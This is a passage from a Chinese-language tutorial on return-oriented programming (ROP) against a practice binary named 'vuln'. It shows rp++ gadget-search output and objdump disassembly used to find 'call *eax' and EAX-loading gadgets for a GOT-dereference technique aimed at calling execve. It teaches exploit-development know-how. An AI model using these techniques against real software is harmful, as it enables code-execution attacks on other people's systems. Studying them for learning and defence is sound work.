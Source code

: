 零件 3：我们在 GOT 覆盖中看到，可执行文件`vuln`中没有找到`pop %eax; ret;`。

零件 4：通过调用寄存器来调用`execve`。因此我们需要`call *eax`零件。

```
$ ~/roptools/rp++ --atsyntax -f ./vuln -r 1
Trying to open './vuln'..
Loading ELF information..
FileFormat: Elf, Arch: Ia32
Using the AT&T syntax..

Wait a few seconds, rp++ is looking for gadgets..
in PHDR
0 found.

in LOAD
65 found.

A total of 65 gadgets found.
...
0x080485bb: calll *%-0x000000E0(%ebx,%esi,4) ; (1 found)
0x080484cf: calll *%eax ; (1 found)
0x0804860b: calll *%eax ; (1 found)
...
$
```

好的。我们发现了`call *eax`零件。但是还是因为零件 3`popl %eax; ret;`没有找到，GOT 解引用也是无法实现的。

栈布局：下面的图片描述了用于完成 GOT 解引用的零件链：

![2](http://upload-images.jianshu.io/upload_images/118142-30e634cad38bdd63.png)

在似乎没有更多方法时（至少对于我来说，当我开始了解 ROP 的时候），Reno 向我介绍了下面的解法，通过手动搜索 ROP 零件。非常感谢，所以继续吧。

## 手动搜索 ROP 零件

由于 ROP 零件工具不能找到`pop eax;ret;`零件，让我们手动搜索来寻找，是否能找到任何有趣的零件，能够帮助我们将偏移差复制给 EAX 寄存器。

反汇编二进制`vuln`（使用下面的命令）：

```
$objdump -d vuln > out
```

零件 4：使用偏移差`0xfffff530`加载 EAX。反汇编展示了一个 MOV 指令，它将栈内容复制给 EAX：

```asm
80485b3: mov 0x34(%esp),%eax
80485b7: mov %eax,0x4(%esp)
80485bb: call *-0xe0(%ebx,%esi,4)
80485c2: add $0x1,%esi
80485c5: cmp %edi,%esi
80485c7: jne 80485a8 <__libc_csu_init+0x38>
80485c9: add $0x1c,%esp
80485cc: pop %ebx
80485cd: pop %esi
80485ce: pop %edi
80485cf: pop %ebp
80485d0: ret
```
